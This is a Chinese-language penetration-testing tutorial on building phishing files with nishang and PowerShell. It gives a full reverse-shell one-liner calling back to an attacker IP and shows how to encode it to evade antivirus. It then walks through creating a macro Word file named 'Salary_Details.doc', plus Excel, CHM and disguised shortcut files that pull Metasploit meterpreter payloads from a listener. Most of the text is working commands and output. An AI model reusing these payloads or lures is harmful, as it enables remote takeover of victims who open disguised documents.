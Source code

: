 # 使用powershell Client进行有效钓鱼

0x00 简介
=====

**Powershell**是windows下面非常强大的命令行工具，并且在windows中Powershell可以利用.NET Framework的强大功能，也可以调用windows API，在win7/server 2008以后，powershell已被集成在系统当中。 除此之外，使用powershell能很好的bypass各种AV，在渗透测试中可谓是一个神器。此次使用的是开源的powershell脚本集[nishang](https://github.com/samratashok/nishang)中的client来制作钓鱼文件。其中office类型文件可以达到钓鱼目的的前提是`office已经启用宏`。

0x01制作word钓鱼文件
=====

下载[powercat](https://github.com/besimorhino/powercat)（**powershell的nc**）

加载powercat ：

```
PS G:\github\Pentest\powershell\powercat-master> . .\powercat.ps1
PS G:\github\Pentest\powershell\powercat-master> powercat
You must select either client mode (-c) or listen mode (-l).

```

加载以后使用powercat开启监听：

```
PS G:\github\Pentest\powershell\powercat-master> powercat -l -v -p 4444
详细信息: Set Stream 1: TCP
详细信息: Set Stream 2: Console
详细信息: Setting up Stream 1...
详细信息: Listening on [0.0.0.0] (port 4444)

```

测试加载Invoke-PowerShellTcp并执行：

```
PS G:\github\Pentest\powershell\nishang-master\Shells> . .\Invoke-PowerShellTcp.ps1
PS G:\github\Pentest\powershell\nishang-master\Shells> Invoke-PowerShellTcp -Reverse -IPAddress 127.0.0.1 -Port 4444

```

执行结果如下图：

![Alt text](http://drops.javaweb.org/uploads/images/ef9d9e553708d62875bcd3dd16f6bce216ad9d3c.jpg)

可以发现，直接获取了一个powershell的shell。下面制作word文件。 复制nishang中Invoke-PowerShellTcpOneLine.ps1 client代码，如下：

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.52.129",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text language=".encoding"][/text]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

使用Invoke-Encode.ps1进行编码,编码之前记得要修改ip以及自己要监听的端口

```
PS G:\github\Pentest\powershell\nishang-master\Shells> cd ..\Utility\
PS G:\github\Pentest\powershell\nishang-master\Utility> . .\Invoke-Encode.ps1
PS G:\github\Pentest\powershell\nishang-master\Utility> Invoke-Encode -DataToEncode '$client = New-Object System.Net.Sockets.TCPClient("192.1
68.52.129",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$da
ta = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendb
ack + "PS " + (pwd).Path + "> ";$sendbyte = ([text language=".encoding"][/text]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream
.Flush()};$client.Close()' -IsString -PostScriptCommand
Encoded data written to .\encoded.txt
Encoded command written to .\encodedcommand.txt

```

复制encodedcommand.txt的代码如下：

```
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String('TVHNasJAEL4X+g5DSMsuNUtMG6mGCm1oi1CiNEIP4mFNBpMao5gRFfXdu5uY1L3MMHx/M2tGWYo5wQsEuLOGs1+MCMJDQbgUAZIIV9ECqRBjf+SXSGa0u45od56Fq4rTNVpP6nHPLGiDcqmEzEpSfCKF5YxxbzI7EE6mU1PXQoFsITqu++ie7o722dslaYaMmammV0LiG2XMKnwL7BZUrfjCfE4J52DlCDY/emYsSSoeu1rAGh/WGMgl1quMcU/iNfQHg/c8WsVpPueXfKqtXbRJqjfBPJ7JaKFFU9xD5eD079twguGWrIoGV1AHyuQ18QGMUQiGqmy9i7kYSUr0sA/GhaMMtfyEdDC8ZJr2emXGMtubzsT+HZoTi59NSsgaHZW76evzNNiPbFskjJ+9+lf8bFUg47c3fw==')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();

```

加载Out-Word.ps1并生成后门，这里要注意，`要把payload里面的单引号多加一个单引号！`

```
PS G:\github\Pentest\powershell\nishang-master\Utility> . ..\Client\Out-Word.ps1
PS G:\github\Pentest\powershell\nishang-master\Utility> Out-Word -Payload 'powershell -c Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(''TVHNasJAEL4X+g5DSMsuNUtMG6mGCm1oi1CiNEIP4mFNBpMao5gRFfXdu5uY1L3MMHx/M2tGWYo5wQsEuLOGs1+MCMJDQbgUAZIIV9ECqRBjf+SXSGa0u45od56Fq4rTNVpP6nHPLGiDcqmEzEpSfCKF5YxxbzI7EE6mU1PXQoFsITqu++ie7o722dslaYaMmammV0LiG2XMKnwL7BZUrfjCfE4J52DlCDY/emYsSSoeu1rAGh/WGMgl1quMcU/iNfQHg/c8WsVpPueXfKqtXbRJqjfBPJ7JaKFFU9xD5eD079twguGWrIoGV1AHyuQ18QGMUQiGqmy9i7kYSUr0sA/GhaMMtfyEdDC8ZJr2emXGMtubzsT+HZoTi59NSsgaHZW76evzNNiPbFskjJ+9+lf8bFUg47c3fw=='')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();'
Saved to file G:\github\Pentest\powershell\nishang-master\Utility\Salary_Details.doc
0
PS G:\github\Pentest\powershell\nishang-master\Utility>

```

执行word以后，则会反弹shell，在启用宏的计算机上没有任何提示，未启用宏的计算机会有启用宏的提示。

![Alt text](http://drops.javaweb.org/uploads/images/af1618cfac92c2ae7552813d42289e1c8eea05b4.jpg)

获取反弹的powershell可以很容易的升级到metasploit的meterpreter。

0x02制作excel钓鱼文件
=====

首先使用msf的web_delivery开启一个powershell的监听：

```
#bash
msf > use exploit/multi/script/web_delivery 
msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(web_delivery) > set LHOST 192.168.52.129
LHOST => 192.168.52.129
msf exploit(web_delivery) > set URIPATH /
URIPATH => 
msf exploit(web_delivery) > exploit 

```

开启服务如下图：

![Alt text](http://drops.javaweb.org/uploads/images/3528e441c940561956dc8956ab1893ac5388e64f.jpg)

使用Out-Excel.ps1制作excel钓鱼文件:

```
D:\temp>powershell
Windows PowerShell
版权所有 (C) 2015 Microsoft Corporation。保留所有权利。    

PS D:\temp> . .\Out-Excel.ps1
PS D:\temp> Out-Excel -PayloadURL http://192.168.52.129:8080/ -OutputFile  D:\temp\test.xls
Saved to file D:\temp\test.xls
0

```

其中`http://192.168.52.129:8080/`是msf开启的服务地址。 运行excel，获取meterpreter会话如下图：

![Alt text](http://drops.javaweb.org/uploads/images/c0d5a104260f2c153fc3f1d2d2c668828ac12423.jpg)

0x03制作chm钓鱼文件
=====

依然使用msf开启powershell的web_delivery，使用Out-CHM制作chm钓鱼文件：

```
PS D:\temp> Out-CHM -PayloadURL http://192.168.52.129:8080/ -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Microsoft HTML Help Compiler 4.74.8702    

Compiling d:\temp\doc.chm    


Compile time: 0 minutes, 1 second
2       Topics
4       Local links
4       Internet links
0       Graphics    


Created d:\temp\doc.chm, 13,524 bytes
Compression increased file by 324 bytes.
PS D:\temp>

```

运行doc.chm,获取meterpreter会话:

![Alt text](http://drops.javaweb.org/uploads/images/f8fe9a12d832beb9582c59ecaad92cf60e66a4aa.jpg)

缺点是会弹出黑框框。丢给几个小伙伴测试，都上线了（23333）。

0x04制作快捷方式钓鱼文件
=====

依然使用之前开启的web_delivery,使用Out-Shortcut制作快捷方式钓鱼文件。

```
PS D:\temp> . .\Out-Shortcut.ps1
PS D:\temp> Out-Shortcut -PayloadURL http://192.168.52.129:8080/ -HotKey 'F3' -Icon 'notepad.exe'
The Shortcut file has been written as D:\temp\Shortcut to File Server.lnk

```

其中PayloadURL为web_delivery服务地址，Icon为快捷方式的图标，HotKey为快捷键。 右键属性快捷方式，可以看到快捷方式指向我们的服务地址，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/53282a9109791559272b386d896c0d6eb74082b0.jpg)

运行快捷方式，可以获取meterpreter会话：

![Alt text](http://drops.javaweb.org/uploads/images/cd83ffbb9cf0e196e93bd8606ab596c0331d8f4b.jpg)

0x05小结
=====

测试发现，上面几个方式还是挺有效的，使用chm方式更容易成功些，因为使用了powershell，防护软件并没有报警，其中还有WebQuery、java以及hta类型的钓鱼文件生成脚本，笔者测试java以及hta方式的没有成功，这里就不介绍了，至于WebQuery方式的在FB上已经有详细的介绍：[传送门](http://www.freebuf.com/news/76581.html)有兴趣的小伙伴可以继续研究研究。